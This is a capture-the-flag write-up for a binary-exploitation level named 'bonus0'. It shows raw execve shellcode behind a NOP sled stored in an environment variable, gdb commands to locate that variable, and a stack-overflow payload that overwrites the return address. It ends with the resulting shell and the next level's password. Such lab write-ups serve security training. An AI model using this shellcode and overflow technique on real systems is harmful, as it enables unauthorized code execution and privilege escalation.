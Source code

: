 # bonus0

We can use a environment variable to store the shellcode this time.  

```sh
$> export SHELLCODE=$(python -c 'print("\x90"*1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

We then retrieve the `SHELLCODE`'s address :
```sh
$> gdb -q bonus0
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/32s *((char **)environ)
0xbffff868:	 "SHELLCODE=[...]"
[...]
```

To be sure, we added a bunch of no-ops padding before the actual shellcode.  

By using a pattern, we found that `eip` offset is `9` bytes.

Then we can apply the payload :

```sh
$> (python -c 'print("\x90"*100)'; python -c 'print("\x90"*9 + "\x88\xf8\xff\xbf" + "\x90"*100)'; cat ) | ./bonus0
 - 
 - 
[...]
$ whoami
bonus1
$ cat /home/user/bonus1/.pass 
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
*note that in `print("\x90"*100)`, `100` is purely random. it just have to be overflowing the buffer which is `20 bytes`.*
